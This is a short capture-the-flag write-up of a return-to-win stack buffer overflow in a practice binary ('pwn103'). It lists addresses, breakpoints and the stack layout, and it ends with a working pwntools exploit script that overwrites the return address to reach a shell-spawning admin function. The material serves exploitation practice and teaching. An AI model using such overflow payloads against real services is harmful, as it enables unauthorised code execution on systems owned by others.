



# Challenge 3
Overflow vuln in option 3 - `general()` - Buffer size `0x20 = 32`



function `admins_only()` launches shell @ `0x0000000000401554`

Breakpoints;
0x00401327 - `general()` @ `scanf`
0x004015fa - `main()` @ `scanf`
0x00401554 - `admin()`
"return2win"


So from the assembly we have our input buffer (`0x20` = 32 bytes)
Then we have our RBP (Stack Frame Pointer), which we just put empty as its not that important for us.
Finally we overwrite our return address, putting this to `0x00401555` 
We're jumping to the 2nd instruction right away, skipping the `push rbp` because that seemed to cause a crash - not entirely sure why...



(Stack Frame Layout - Grows downwards in this picture)



Exploit code

```python
from pwn import *
from pwnlib.util.packing import p64
import sys

# Buffer
buffer = b'A' * 0x20

nop = p64(0x0)           # Overwrite RBP
admin = p64(0x00401555)  # Admin function location

PAYLOAD = buffer + nop + admin

if sys.argv[1] == "local":
    proc = process("pwn103-1644300337872.pwn103")
    print("Local process starting")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))
    print("Online connection")

proc.recvuntil(b"Choose the channel: ")
proc.sendline(b"3")
proc.recvuntil(b"[pwner]: ")

# Sending payload..
proc.sendline(PAYLOAD)
proc.interactive()
```
